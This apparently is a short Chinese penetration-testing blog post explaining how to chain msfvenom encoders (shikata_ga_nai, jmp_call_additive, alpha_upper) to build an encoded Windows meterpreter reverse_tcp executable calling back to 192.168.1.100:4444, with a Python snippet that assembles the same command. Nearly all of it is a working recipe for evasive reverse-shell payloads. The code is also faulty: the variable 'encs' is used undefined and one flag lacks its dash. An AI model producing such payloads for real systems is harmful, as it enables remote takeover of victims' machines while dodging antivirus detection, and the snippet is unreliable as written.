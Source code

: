 ```yaml
---
title: "msfvenom 多重编码"
date: 2018-06-20T00:00:00+08:00
draft: false
tags: ["metasploit"]
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


除第一次需要指定 payload 外, 其他都用 `-p -` 代替, 多重编码需要指定 `--platform` 和 `-a` 并用 `-f raw` 输出, 最后一次编码更改为 `-f exe`

<!--more-->

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f raw | msfvenom -p - -e x86/jmp_call_additive -i 2 -a x86 --platform windows -f raw | msfvenom -p - e x86/alpha_upper -i 1 -a x86 --platform windows -f exe > msf.exe
```

Python 实现

```
args = 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 '
encoders = {'x86/shikata_ga_nai': '5', 'x86/jmp_call_additive': '2', 'x86/alpha_upper': '1'}

for c in list(encoders.keys())[:-1]:
	encs += '-e ' + c + ' -i ' + encoders.get(c) + ' -a x86 --platform windows -f raw | msfvenom -p - '

encs += '-e ' + list(encoders.keys())[-1] + ' -i ' + encoders.get(list(encoders.keys())[-1]) + ' -a x86  --platform windows '
args += encs + '-f exe > msf.exe'
```